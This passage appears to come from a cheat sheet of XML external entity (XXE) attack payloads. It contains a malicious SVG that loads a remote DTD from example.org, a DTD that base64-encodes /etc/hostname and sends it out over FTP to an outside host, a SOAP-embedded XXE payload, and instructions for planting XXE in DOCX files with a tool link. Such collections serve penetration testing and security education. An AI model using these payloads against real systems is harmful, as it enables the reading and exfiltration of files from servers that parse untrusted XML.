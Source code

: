 _xxe.svg_

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://example.org:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="200" height="200" style="fill:pink;opacity:0.7"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="0" y="0" width="200" height="200" style="fill:red;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara>&exfil;</flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```

*xxe.xml*

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://example.org:2121/%data;'>">
```

### XXE Inside SOAP

```xml
<soap:Body>
  <foo>
    <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### XXE Inside DOCX file

Format of an Open XML file (inject the payload in any .xml file):

- /_rels/.rels
- [Content_Types].xml
- Default Main Document Part
  - /word/document.xml
  - /ppt/presentation.xml
  - /xl/workbook.xml

Then update the file `zip -u xxe.docx [Content_Types].xml`

Tool : https://github.com/BuffaloWill/oxml_xxe
